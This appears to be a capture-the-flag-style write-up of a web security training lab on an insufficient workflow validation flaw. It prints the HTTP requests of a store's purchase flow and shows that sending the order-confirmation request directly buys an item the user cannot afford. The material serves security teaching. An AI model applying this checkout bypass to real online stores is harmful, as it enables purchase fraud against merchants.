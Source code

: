 ### Insufficient workflow validation

#### LAB
This Lab ha a security flaw in the purchising steps. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

We can start to peform a purchase and to inspect the requests made to server during this process. First of all we can see that we have to be logged in to proceed with the check-out, so let's proceed to log-in. Once logged we can see that wiener has a credit of $100, let's try again to buy an item:
<br>![img](./img/89.png)<br>

The purchase flow is composed by 3 requests:
1. add an item to the cart: 
```
POST /cart HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close

productId=2&redir=PRODUCT&quantity=1
```
2. cart check-out (with csrf token)
```
POST /cart/checkout HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close

csrf=jWRswYUqtvd8Fm2hQesbCXTQSfvwhkny
```
3. a confirmation
```
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close
```
If we try to buy the Leather Jacket, since we don't have enough credit, we will get an error message:
<br>![img](./img/90.png)<br>
But what happens if we try to submit the confirmation request once we have the jacket in the cart?
<br>![img](./img/91.png)<br>

Since the confirmation step does not implement any additional controls on the price, related to the user funds the order is placed and the Lab is solved.
#### References
